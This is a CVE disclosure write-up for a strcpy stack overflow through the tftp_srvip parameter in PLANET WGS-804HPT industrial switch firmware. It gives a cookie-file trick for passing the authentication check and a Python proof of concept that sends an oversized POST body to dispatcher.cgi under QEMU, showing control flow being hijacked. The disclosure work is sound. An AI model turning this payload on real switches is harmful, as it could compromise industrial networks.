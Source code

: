 ```yaml
---
title: web_tool_upgradeManager_post-tftp_srvip
date: 2025-04-20 17:09:11
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44897



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2





# web_tool_upgradeManager_post-tftp_srvip

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_tool_upgradeManager_post  contains a stack overflow vulnerability.

The stack overflow can be triggered bytftp_srvip value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451404084703.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250416172624869](../res/image-20250416172624869-174479558613627.png)



![image-20250416172807946](res/image-20250416172807946-174479568902230.png)

Through IDA, it can be seen that the stack space is 0x220



﻿The content of the **poc**.py file is as follows:

```json
import os


a = 5900
var_name = "tftp_srvip"
b = 'a' * 0x500
c = "upmethod=tftp"

poc_content = f"&cmd={a}&{var_name}={b}&{c}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)


```

# Attack result

![image-20250416172655641](../res/image-20250416172655641-174479561718428.png)

![image-20250416172742257](../res/image-20250416172742257-174479566342829.png)



Through the above image, we can see that we have overflowed to 0x3e0 and successfully hijacked the control flow. If necessary, more can be overflowed.

